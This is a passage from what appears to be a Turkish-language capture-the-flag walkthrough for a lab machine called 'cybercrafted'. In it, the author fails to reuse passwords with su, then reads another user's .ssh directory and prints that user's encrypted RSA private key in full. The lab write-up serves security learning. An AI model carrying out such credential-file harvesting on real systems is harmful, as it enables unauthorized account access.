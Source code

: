 Sahip olduğumuz şifreleri tekrar kullanmaya çalışırsak işe yaramıyor.

```bash
www-data@cybercrafted:/$ su xxultimatecreeperxx
Password: 
su: Authentication failure
www-data@cybercrafted:/$ ^C
www-data@cybercrafted:/$ su cybercrafted
Password: 
su: Authentication failure
www-data@cybercrafted:/$ 
```

Xxultimatecreeperxx kullanıcısının şifrelenmiş id_rsa'sını bulduk.

```bash
www-data@cybercrafted:/home/xxultimatecreeperxx/.ssh$ ls -la
total 16
drwxrwxr-x 2 xxultimatecreeperxx xxultimatecreeperxx 4096 Jun 27  2021 .
drwxr-xr-x 5 xxultimatecreeperxx xxultimatecreeperxx 4096 Oct 15  2021 ..
-rw-r--r-- 1 xxultimatecreeperxx xxultimatecreeperxx  414 Jun 27  2021 authorized_keys
-rw-r--r-- 1 xxultimatecreeperxx xxultimatecreeperxx 1766 Jun 27  2021 id_rsa
www-data@cybercrafted:/home/xxultimatecreeperxx/.ssh$ cat id_rsa 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3579498908433674083EAAD00F2D89F6

Sc3FPbCv/4DIpQUOalsczNkVCR+hBdoiAEM8mtbF2RxgoiV7XF2PgEehwJUhhyDG
+Bb/uSiC1AsL+UO8WgDsbSsBwKLWijmYCmsp1fWp3xaGX2qVVbmI45ch8ef3QQ1U
SCc7TmWJgI/Bt6k9J60WNThmjKdYTuaLymOVJjiajho799BnAQWE89jOLwE3VA5m
SfcytNIJkHHQR67K2z2f0noCh2jVkM0sx8QS+hUBeNWT6lr3pEoBKPk5BkRgbpAu
lSkN+Ubrq2/+DA1e/LB9u9unwi+zUec1G5utqfmNPIHYyB2ZHWpX8Deyq5imWwH9
FkqfnN3JpXIW22TOMPYOOKAjan3XpilhOGhbZf5TUz0StZmQfozp5WOU/J5qBTtQ
sXG4ySXCWGEq5Mtj2wjdmOBIjbmVURWklbsN+R6UiYeBE5IViA9sQTPXcYnfDNPm
stB2ukMrnmINOu0U2rrHFqOwNKELmzSr7UmdxiHCWHNOSzH4jYl0zjWI7NZoTLNA
eE214PUmIhiCkNWgcymwhJ5pTq5tUg3OUeq6sSDbvU8hCE6jjq5+zYlqs+DkIW2v
VeaVnbA2hij69kGQi/ABtS9PrvRDj/oSIO4YMyZIhvnH+miCjNUNxVuH1k3LlD/6
LkvugR2wXG2RVdGNIwrhtkz8b5xaUvLY4An/rgJpn8gYDjIJj66uKQs5isdzHSlf
jOjh5qkRyKYFfPegK32iDfeD3F314L3KBaAlSktPKpQ+ooqUtTa+Mngh3CL8JpOO
Hi6qk24cpDUx68sSt7wIzdSwyYW4A/h0vxnZSsU6kFAqR28/6pjThHoQ0ijdKgpO
8wj/u29pyQypilQoWO52Kis4IzuMN6Od+R8L4RnCV3bBR4ppDAnW3ADP312FajR+
DQAHHtfpQJYH92ohpj3dF5mJTT+aL8MfAhSUF12Mnn9d9MEuGRKIwHWF4d1K69lr
0GpRSOxDrAafNnfZoykOPRjZsswK3YXwFu3xWQFl3mZ7N+6yDOSTpJgJuNfiJ0jh
MBMMh4+r7McEOhl4f4jd0PHPf3TdxaONzHtAoj69JYDIrxwJ28DtVuyk89pu2bY7
mpbcQFcsYHXv6Evh/evkSGsorcKHv1Uj3BCchL6V4mZmeJfnde6EkINNwRW8vDY+
gIYqA/r2QbKOdLyHD+xP4SpX7VVFliXXW9DDqdfLJ6glMNNNbM1mEzHBMywd1IKE
Zm+7ih+q4s0RBClsV0IQnzCrSij//4urAN5ZaEHf0k695fYAKMs41/bQ/Tv7kvNc
T93QJjphRwSKdyQIuuDsjCAoB7VuMI4hCrEauTavXU82lmo1cALeNSgvvhxxcd7r
1egiyyvHzUtOUP3RcOaxvHwYGQxGy1kq88oUaE7JrV2iSHBQTy6NkCV9j2RlsGZY
fYGHuf6juOc3Ub1iDV1B4Gk0964vclePoG+rdMXWK+HmdxfNHDiZyN4taQgBp656
RKTM49I7MsdD/uTK9CyHQGE9q2PekljkjdzCrwcW6xLhYILruayX1B4IWqr/p55k
v6+jjQHOy6a0Qm23OwrhKhO8kn1OdQMWqftf2D3hEuBKR/FXLIughjmyR1j9JFtJ
-----END RSA PRIVATE KEY-----
www-data@cybercrafted:/home/xxultimatecreeperxx/.ssh$ 
```
